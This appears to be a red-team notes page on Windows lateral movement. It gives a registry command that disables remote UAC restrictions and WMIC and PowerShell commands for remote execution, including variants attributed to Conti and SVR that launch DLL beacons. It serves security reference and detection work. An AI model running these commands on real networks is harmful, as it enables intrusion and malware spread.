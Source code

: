 ```yaml
---
description: >-
  The adversary is trying to move through your environment.
  https://attack.mitre.org/tactics/TA0008/
---
```


# Lateral Movement

## Disable Remote UAC Restrictions

{% code overflow="wrap" %}
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
{% endcode %}

## WMIC

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)&#x20;

WMI allows users with the required privileges to execute commands in remote hosts without additional tools. Adversaries abuse this feature to move laterally in a compromised network. Adversaries used the following commands to execute commands in a remote host.

{% code overflow="wrap" %}
```powershell
wmic /node:<remote_ip> /user:<username> /password:<password> process call create cmd.exe /c "<command>"
```
{% endcode %}

Or, with PowerShell:

{% code overflow="wrap" %}
```powershell
Invoke-WMIMethod -class Win32_Process -Name Create -ArgumentList "cmd /c <command>" -ComputerName <remote_hostname>
```
{% endcode %}

Conti TTP

{% code overflow="wrap" %}
```powershell
wmic /node:victim_ip process call create "rundll32.exe C:/ProgramData/beacon_dll DllRegisterServer"
```
{% endcode %}

Russian Foreign Intelligence Service (SVR) TTP

{% code overflow="wrap" %}
```powershell
wmic /node:<remote_host's_IP> /user:<username> /password:<password> process call create "rundll32 C:\Windows\system32\AclNumsInvertHost.dll AclNumsInvertHost"
```
{% endcode %}
